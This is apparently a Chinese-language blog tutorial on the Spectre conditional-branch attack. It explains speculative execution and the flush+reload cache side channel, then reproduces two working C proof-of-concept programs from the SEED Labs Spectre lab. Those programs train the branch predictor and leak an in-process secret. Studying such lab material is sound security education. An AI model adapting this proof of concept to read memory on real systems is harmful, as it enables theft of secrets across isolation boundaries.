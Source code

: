 ```yaml
---
title: Spectre Attack
date: 2019/10/5
---
```

## Spectre攻击概述
Spectre攻击是一种利用cpu在执行代码时的漏洞，诱使victim程序执行其本不该执行的代码导致数据的泄漏，在2017年被发现直到2018年才会公开，影响了大量的使用Intel，ARM，AMD芯片的设备。
## 攻击涉及主要技术
### CPU预测执行
由于现在CPU的频率提高越来越困难（频率越高，导致温度变高，容易烧坏芯片），CPU普遍采用两中技术来提高cpu执行代码的速度，一种是乱序执行，通过将相互独立的指令并行执行来提高执行的速度（被用在meltdown攻击中）。另一种就是预测执行，它的应用场景是cpu在应用乱序执行机制执行代码时，当遇到一些跳转时（比如条件跳转，间接跳转），如果跳转的产生需要依赖与一些未完成的指令，导致不能马上执行跳转，此时，cpu便会执行预测执行，预测跳转的目的地并继续往下执行。
### 基于缓存的侧信道攻击
flush+reload方法是Yuval Yarom和Katrina Falkner两位大牛在2014年的usenix上提出。程序在访问某一地址内存时，如果该内存之前被访问过，则会放在缓存中，则此次访问会产生一个缓存命中，导致访问速度比一般访问内存快很多。这很大程度提高了计算机访问内存的速度，但也给攻击者带来了可趁之机。攻击者可以扫描内存，对每一次的访问内存进行计时，根据缓存命中与否的访问时间上的差异，可以确定该内存是否被访问过。这个方法针对不同的场景有不同的用法。那两位作者在他们的论文中用这个方法获得了rsa算法的密钥。Spectre用这个方法读取了相关内存的值，具体的会在下面介绍。
## Spectre攻击流程
Spectre攻击在论文中实施了两种攻击，一种是针对条件跳转的，一种是针对间接跳转的。由于间接跳转的比较复杂，本文就对条件跳转的攻击进行讨论。
我们先来看一下代码
```
if(x<array1_size){
    y=array2[array1[x]*4096];
}
 
```
按照程序的正常运行，只有当x满足条件x< array1_size，时，程序才会执行下面的语句，但是当攻击者可以控制预测执行时，攻击者就可以在x> array1_size的情况下使程序执行下面的语句。大家有兴趣的可以用一下代码尝试，该代码取自seedlab中的spectreattack实验。
```
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
  temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;
  // FLUSH the probing array
  flushSideChannel();
  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
   _mm_clflush(&size); 
   victim(i);
  }
  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
   _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  
  // RELOAD the probing array
  reloadSideChannel();
  return (0); 
}
```
在上面的victim程序中，x假设是一个我们想要访问的值，之所以要乘4096是为了相邻两个x值之间的距离，防止prefetch机制。DELTA是为了防止一个在i=0时，程序在访问本地变量的时候，cache会一个line大小的数据（包括array[0]）全放入缓存，导致flush过程的失败。

控制预测执行成功后，我们模拟一个应用场景，比如说在浏览器浏览网页时，不同网页是在一个进程中的，而进程内的隔离一般是通过sandbox技术实现，在sandbox中，常见的隔离手段是通过边界检查，例如下面的代码：
```
if (address_want_to_access<permitted_address_size){
  return memory[address_want_to_access]
}
```
试想，如果我们能够绕过边界检查，把我们要读取的内存作为内存地址放在缓存中，然后再用flush+reload技术获得缓存中存储的内存地址，这样一顿操作后，我们是不是就能读取想要的数据了？
我们来看如下代码片段，我们假设我们已经训练好预测执行，victim函数是一个边界检查函数，x是我们想要读取的内存地址，我们调用victim函数并将结果放到数组中进行运算，这是为了将数据能够泄漏到缓存中，使得我们能用flush+reload技术去读取想要读取的数据。
```
uint8_t victim(x){

  if(x<buffer_size){
    return buffer[x]
  }else{
    return 0
  }
}

int main(){
  x=address_want_to_read;
  s=victim(x);               //读取指定数据
  array[s*4096+DELTA]+=99;//为了访问内存，将数据泄漏到缓存中
}
```
最后附上一个seedlab上spectreattack的一个程序代码
```
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp = 0;
char *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x < buffer_size) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
    }
  } 
}
void spectreAttack(size_t larger_x)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
   _mm_clflush(&buffer_size);
   restrictedAccess(i); 
  }
  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++) { }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(larger_x);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t larger_x = (size_t)(secret - (char*)buffer);  
  spectreAttack(larger_x);
  reloadSideChannel();
  return (0);
}
```
[关于seedlab的spectre attack详细介绍请看](https://seedsecuritylabs.org/Labs_16.04/PDF/Spectre_Attack.pdf)

以上就是spectre的基本思想，论述的不清楚的地方请大家多多见谅,欢迎大家与我一起交流学习
